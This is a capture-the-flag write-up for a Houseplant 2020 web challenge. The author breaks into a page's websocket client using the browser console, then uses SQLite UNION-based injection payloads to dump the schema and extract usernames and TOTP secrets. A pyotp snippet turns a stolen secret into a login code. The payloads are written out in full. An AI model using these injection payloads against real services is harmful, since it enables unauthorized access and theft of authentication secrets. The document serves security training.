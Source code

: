 If you look at the source code of the challenge you can see they used browserify for bundling the dependencies. I wrote my version of this client so you can check those dependencies at the link end of this writeup.

But in this writeup we are gonna use chrome developer console, put breakpoint in a good place and take control of the socket. Test manually and leak totp keys.

![image-20200427112039042](https://github.com/BirdsArentRealCTF/Writeups/raw/master/houseplant2020/blog-from-the-future/image-20200427112039042.png)

I choose 2146th line because we can see response from server in here. And we can access to websocket and msgpack class. 

![image-20200427112558712](https://github.com/BirdsArentRealCTF/Writeups/raw/master/houseplant2020/blog-from-the-future/image-20200427112558712.png)

After we get those we can manually test our payloads.

```javascript
r.send(o.encode(["getPost", "1"]))
```

![image-20200427112824345](https://github.com/BirdsArentRealCTF/Writeups/raw/master/houseplant2020/blog-from-the-future/image-20200427112824345.png)

```json
author: 1
hidden: 0
id: 2
postDate: 1580947200000
text: "They're pretty cool, in my opinion."
title: "A review of American sockets"
```

This is the post structure. Mind the hidden field because if its true we can't see it.

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification using these payloads we can identify database system and develop payload for it.

```javascript
r.send(o.encode(["getPost", "1 and sqlite_version()=sqlite_version()"]))
```

It worked so we have sqlite backend. We can leak database structure with payload below.

```javascript
r.send(o.encode(["getPost", "999 or 1=1 UNION SELECT sql,sql,sql,sql,sql,0 from sqlite_master"]))
```

This payload allows us to see whole database structure.

```sql
CREATE TABLE "users" (
	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"username"	TEXT NOT NULL,
	"totp_key"	TEXT NOT NULL
)
CREATE TABLE "posts" (
	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"title"	TEXT NOT NULL,
	"author"	INTEGER NOT NULL,
	"text"	TEXT NOT NULL,
	"postDate"	INTEGER NOT NULL,
	"hidden"	INTEGER DEFAULT 0
)
```

After find out column names we can get user names and totp keys.

```javascript
r.send(o.encode(["getPost", "999 or 1=1 UNION SELECT username,totp_key,0,0,0,0 from users "]));
```

```javascript
{id: "alice", title: "J5YD4O2BIZYEMVJYIY3F24S3GQ2VC3ZTKJQVW5JFJUYHKODXORQQ", author: 0, text: 0, postDate: 0, …}
{id: "bob", title: "IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA", author: 0, text: 0, postDate: 0, …}
```

After leaking user names and totp keys we need to create totp password. I used pyotp library.

```python
import pyotp
totp = pyotp.TOTP('IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA')
totp.now() # => '677619'
```

Login and get the flag!

Don't forget to check my automated blind boolean script https://github.com/BirdsArentRealCTF/Writeups/blob/master/houseplant2020/blog-from-the-future/index.html

Do you have any questions or suggestion? Feel free to contact via discord. **enjloezz#7444**
